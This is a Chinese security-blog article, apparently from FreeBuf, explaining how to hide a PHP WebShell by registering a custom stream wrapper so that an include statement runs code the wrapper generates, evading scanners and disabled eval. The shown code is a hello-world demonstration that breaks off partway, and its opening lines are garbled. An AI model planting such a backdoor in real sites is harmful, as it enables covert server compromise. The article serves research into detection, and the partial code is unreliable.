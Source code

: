 ## PHP使用流包装器实现WebShell

来源：[http://www.freebuf.com/articles/web/176571.html](http://www.freebuf.com/articles/web/176571.html)

时间 2018-07-07 09:04:55

 
* 本文作者：dxkite，本文属FreeBuf原创奖励计划，未经许可禁止转载
 
## 0×00 前言
 
在Web安全领域WebShell的构造与查杀是永不停息的话题，这几天发现了一种新型方式生成WebShell，隐蔽度高，目前安全查杀软件没法检测到相关的后门漏洞，不同于 eval 或则 asset 等方式运行后门，对于这两个函数禁用的情况下一样适用，目前除了禁用相关函数还暂时没有相关方式来避免漏洞。
 
## 0×01 后门原理
 
在PHP开发中，我们使用最为频繁的指令大概就是 include 指令， include 指令中一些比较普通的文件包含漏洞我们就忽略了，先来看看一串代码：
 
```php
include 'http://www.test.com/code.php'
```
 
我们通过这一串代码可以很容易的引用外部的PHP程序，但是前提是配置文件允许该行为被执行，先看看我的配置项
 
```php
;;;;;;;;;;;;;;;;;;
; Fopen wrappers ;
;;;;;;;;;;;;;;;;;;

; Whether to allow the treatment of URLs (like http:// or ftp://) as files.
; http://php.net/allow-url-fopen
allow_url_fopen =Off

; Whether to allow include/require to open URLs (like http:// or ftp://) as files.
; http://php.net/allow-url-include
allow_url_include = Off
```
 
从配置文件可以看到，allow_url_include 被我关闭了，也就是包含远程代码是不可能执行的，但是我们这里利用了一个东西。http:// 流，我们知道，在PHP中很多东西都是可以通过流包装器来使用的，比如常见的 php:// 流，我们可以通过 php://input 来获取输入流来读取请求体的内容，那么根据这个思路，我们能不能通过流包装器来实现代码执行？ **`答案是可行的`**  通过PHP函数 stream_wrapper_register 注册包装器，检测特定的URL包装功能，监控 include 流，在 include 流中动态生成PHP代码，我将通过如下代码执行一个 hello world 程序来证明这个过程
 
```php
include 'hello://dxkite';
```
 
### Hello Stream Wrapper 的实现
 
```php
code = "position = 0;
        return true;
    }

    public function stream_read($count)
    {
        $ret = substr($this->code, $this->position, $count);
        $this->position += strlen($ret);
        return $ret;
    }

    public function stream_tell()
    {
        return $this->position;
    }

    public function stream_eof()
```